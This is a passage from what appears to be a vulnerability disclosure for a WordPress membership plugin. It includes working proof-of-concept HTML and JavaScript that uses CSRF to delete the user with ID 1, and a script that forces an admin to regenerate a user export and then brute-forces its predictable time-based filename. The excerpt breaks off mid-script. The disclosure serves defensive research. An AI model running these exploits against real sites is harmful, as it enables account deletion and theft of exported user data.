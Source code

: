 #### PoC to Delete the User with ID 1 via CSRF Attack

```
<html>
  <body onload="document.forms[0].submit();">
    <form action="https://example.com/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="ihc_delete_user_via_ajax" />
      <input type="hidden" name="id" value="1" />
    </form>
  </body>
</html>
```

The export.xml file was now generated with `$filename = md5( time() . rand(1, 10000) . 'export' ) . '.xml’;` (in `admin/main.php`, `ihc_make_export_file()`). Using `time()` here is not random enough, and an attacker could use a CSRF attack to make a logged in admin regenerate a file, record the timestamp and perform a brute force attack against the filename. Once CSRFed, the brute force would take less than 30min (depending on the target response time though), it took maximum 20min in our test environment.

It seemed like the `ihc_make_csv_user_list()` (in utilities.php) called by the AJAX `ihc_return_csv_link()` (in `admin/main.php`) was also affected as once again a time based value was used as a random bit to generate a hashed md5 filename. Other methods may be affected as well.

#### PoC to Regenerate an export via CSRF Attack, and Brute Force its Path

```html
<-- csrf.html --> 
<html>
  <head>
    <meta content="text/html;charset=utf-8" http-equiv="Content-Type">
    <meta content="utf-8" http-equiv="encoding">
    <script language="javascript" type="text/javascript" src="https://code.jquery.com/jquery-3.4.1.min.js"></script>
  </head>
  <body>
    <script language="javascript" type="text/javascript">
      jQuery(function ($) {
        $('#attack').click(doCSRF);
        $('#clear').click(function() { $('#output').empty(); });

        function timestamp() { return Math.floor(Date.now() / 1000); }

        function writeToScreen(message) { $('#output').append(message + '<br /><br />'); }

        function brute_force_command(time_before_csrf, time_after_crsf) {
          return 'ruby brute_force.rb -s ' + time_before_csrf + ' -e ' + time_after_crsf + ' --url ' + $('#target').val();
        }

        function doCSRF() {
          time_before_csrf = timestamp();

          var rq = $.ajax({
            type: 'POST',
            url: $('#target').val() + 'wp-admin/admin-ajax.php',
            data: 'action=ihc_make_export_file&import_users=1&import_settings=1&import_postmeta=1',
            xhrFields: { withCredentials: true },
            success: function(data) { writeToScreen('Got link from CSRF response: ' + data); } // In case the server supports arbitrary CORS, unlikely
          })
          // When CORS prevents reading the response
          .fail(function(data) { writeToScreen('Brute Force with ' + brute_force_command(time_before_csrf, timestamp())); });
        }
```